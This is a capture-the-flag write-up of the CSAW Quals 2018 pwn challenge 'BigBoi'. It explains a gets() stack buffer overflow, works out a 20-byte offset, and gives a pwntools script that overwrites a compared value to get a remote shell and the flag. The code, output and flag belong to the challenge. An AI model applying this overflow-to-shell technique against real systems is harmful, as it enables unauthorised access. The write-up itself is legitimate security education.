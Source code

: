 # BigBoi

## Information

*CTF*: CSAW Quals 2018

*Category*: PWN

*Point Value*: 25

*Writeup Author*: github.com/Helithumper

## Challenge Description

```bash
    bigboy
    Category: Pwn Points: 25 Solved: 656 Description:

    Only big boi pwners will get this one!

    nc pwn.chal.csaw.io 9000
```

We were given an ELF to work with. First thing I did was run `file` on it:
```bash
    boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```
So we were dealing with a 64 bit ELF.

Upon running, I found the following:
```bash
    ➜  boi ./boi
    Are you a big boiiiii??
    yes
    Wed Sep 19 04:27:55 UTC 2018
```
So when we give it text, it gives us the current time UTC... hmm

Disassembler time!

![Binary Ninja Disassembly](images/bigboi1.png)

So what we see is that a conditional is run after `read` is called to compare `eax` with `0xcaf3baee`. If our value is not equal to `0xcad3baee`, then `/bin/date` is run. Else `/bin/bash` is run. You can guess which path of execution we want...

So from what I can see here i'm betting it's a buffer overflow given that `gets` is used. `gets` doesn't check for buffer sizes and is thus extremely volatile. If I name both the variable that `gets` puts our input into as well as the variable being compared to `0xcaf3baee` in Binja, then we can see offsets:

![Stack Overview](images/bigboi2.png)

So we know that there is a difference of:

    0x38-0x28 = 16 Bytes

between our variables. The difference we see, however, is that our variable is actually at that offset `+0x4`.
![+0x4](images/bigboi3.png)
So we add 4 to 16 Bytes and we get an offset of 20 Bytes.

With this knowledge, we can then create our payload:
```python
    from pwn import *


    p = remote('pwn.chal.csaw.io',9000)

    print(p.recvline())

    payload = 'A'*20 + p64(0xCAF3BAEE)

    # gdb.attach(p)

    print(payload)
    p.sendline(payload)


    p.interactive()
```
When run, we get the following:
```bash
    me@mycomputer ~/D/c/c/boi> python exploit.py
    [+] Opening connection to pwn.chal.csaw.io on port 9000: Done
     _    ___        ____   ___  _ _ _ _

    AAAAAAAAAAAAAAAAAAAA���\x00\x00\x00
    [*] Switching to interactive mode
    | |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
    | '_ \| |/ _` | |  _ \| | | | | | | |
    | |_) | | (_| | | |_) | |_| | | | | |
    |_.__/___\__, | |____/ \___/|_|_|_|_|
             |___/
    ***************************************
    Are you a big boiiiii??
    AAAAAAAAAAAAAAAAAAAA���^@^@^@^@
    $ ls
    ls
    art.txt  boi  flag.txt    run.sh
    $ cat flag.txt
    cat flag.txt
    flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
    $
```
So yay. Shell and flag